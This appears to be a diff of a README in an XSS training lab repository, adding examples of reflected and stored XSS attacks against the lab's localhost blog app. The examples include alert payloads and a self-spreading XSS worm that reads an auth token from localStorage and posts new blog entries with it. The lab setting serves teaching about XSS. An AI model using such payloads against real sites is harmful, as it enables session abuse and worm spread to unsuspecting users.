

Before and after one commit to mohits-git/xss-lab, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
readme: add xss attacks examples

````diff
--- a/README.md
+++ b/README.md
@@ -134,3 +134,33 @@ To prevent XSS attacks, the following measures can be implemented:
 | Login (/login)               | User login page                                 |
 | All Blogs (/blogs)           | Displays all blogs + Search + Create a new post |
 | View Post (/blogs/{id})      | Displays a single blog and its comments         |
+
+
+## XSS Attacks examples
+
+- Reflected XSS attack via search query parameter:
+  - Search for a blog post with a script tag in the title.
+  - Example: `http://localhost:8080/blogs?query=<script>alert('XSS')</script>`
+
+- Stored XSS attack via blog post creation or commenting on a famous blog post:
+    - Create a blog post with a script tag in the content.
+    - Example: `<script>alert('XSS')</script>`
+
+    - Injecting a XSS Worm into the applicaion:
+        - Create a blog post with a script tag that creates a new blog post with a script tag in the content.
+        - Example:
+        ```html
+            <script>
+                const token = localStorage.getItem('authToken')
+                const formData = new FormData();
+                formData.append('title', 'Make Money in Minutes');
+                formData.append('content', "Lorem ipsum dolor sit amet, consectetur adipisicing elit. Reiciendis suscipit possimus dolore. Quibusdam mollitia id accusamus consequatur ea molestiae eum vitae suscipit, voluptatibus rem eveniet, tempora necessitatibus aliquam voluptate alias? Lorem ipsum dolor sit amet, consectetur adipisicing elit. Reiciendis suscipit possimus dolore. Quibusdam mollitia id accusamus consequatur ea molestiae eum vitae suscipit, voluptatibus rem eveniet, tempora necessitatibus aliquam voluptate alias? Lorem ipsum dolor sit amet, consectetur adipisicing elit. Reiciendis suscipit possimus dolore. Quibusdam mollitia id accusamus consequatur ea molestiae eum vitae suscipit, voluptatibus rem eveniet, tempora necessitatibus aliquam voluptate alias?");
+                fetch('/api/blogs', {
+                	method: 'POST',
+                	body: formData,
+                	headers: {
+                		'Authorization': `Bearer ${token}`,
+                        }
+                });
+            </script>
+        ```
````
